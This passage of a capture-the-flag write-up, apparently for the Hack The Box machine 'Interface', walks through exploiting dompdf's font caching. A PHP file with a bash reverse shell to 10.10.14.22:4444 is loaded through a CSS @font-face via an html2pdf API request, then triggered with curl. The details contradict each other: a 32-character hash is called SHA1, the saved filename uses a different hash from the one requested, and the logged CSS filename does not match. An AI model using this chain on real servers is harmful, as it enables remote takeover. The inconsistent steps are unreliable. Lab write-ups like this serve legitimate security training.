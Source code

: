 {% code title="exploit_font.php" %}
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.22/4444 0>&1'");?>
```
{% endcode %}

{% code title="exploit.css" %}
```css
@font-face{
        font-family:'DejaVuSerif';
        src:url('http://10.10.14.22/exploit_font.php');
        font-weight:'normal';
        font-style:'normal';
}
```
{% endcode %}

Then, we need to find the SHA1 hash of the link to our server, in this case mine is `http://10.10.14.22/exploit_font.php`, which becomes `a9e48a0532165b117a0ca8132955581e`.&#x20;

Then, we need to send this HTTP POST request to the API:

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/jsonS
Content-Length: 25

{"html":"<link rel=stylesheet href='http://10.10.14.22/exploit.css'>"}
```

This would make the server send a GET request for both files:

```
10.129.87.208 - - [19/Feb/2023 11:12:27] "GET /mal.css HTTP/1.0" 200 -                       
10.129.87.208 - - [19/Feb/2023 11:12:27] "GET /exploit_font.php HTTP/1.0" 200 -
```

On the machine, our file is now saved in the fonts directory as `exploitfont_normal_d2706fefee906d9288c3b6c4bcddfe5a.php`. After this, all we need to do is send a GET request to this URL: `curl http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_a9e48a0532165b117a0ca8132955581e.php`.

This would give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
